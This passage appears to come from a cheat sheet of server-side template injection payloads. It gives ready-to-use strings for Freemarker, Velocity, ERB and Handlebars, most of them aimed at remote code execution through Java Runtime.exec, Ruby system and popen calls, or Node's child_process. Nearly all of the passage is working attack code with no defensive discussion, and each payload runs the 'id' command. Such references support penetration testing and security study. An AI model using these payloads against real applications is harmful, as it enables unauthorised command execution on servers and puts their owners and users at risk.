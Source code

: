 #### Information Disclosure
```
${object.class}
${object.getClass().getConstructor().newInstance()}
${object.getClass().getName()}
```

#### Remote Code Execution
```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ex("id")}

# Executing commands via Java Runtime
${"freemarker.template.utility.ObjectConstructor"?new()("java.lang.Runtime").getRuntime().exec("id")}
```

### Velocity (Java)

#### Remote Code Execution
```
#set($runtime = $class.getClassLoader().loadClass("java.lang.Runtime").getRuntime())
$runtime.exec("id")

#set($str=$class.forName("java.lang.String"))
#set($chr=$class.forName("java.lang.Character"))
#set($ex=$class.forName("java.lang.Runtime").getRuntime().exec("id"))
```

### ERB (Ruby)

#### Remote Code Execution
```
<%= system('id') %>
<%= `id` %>
<%= IO.popen('id').read() %>
<%= eval('`id`') %>
```

### Handlebars (JavaScript)

```
{% raw %}
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{this.push "return require('child_process').execSync('id');"}}
      {{#with string.sub.apply conslist}}
        {{this}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
{% endraw %}
```
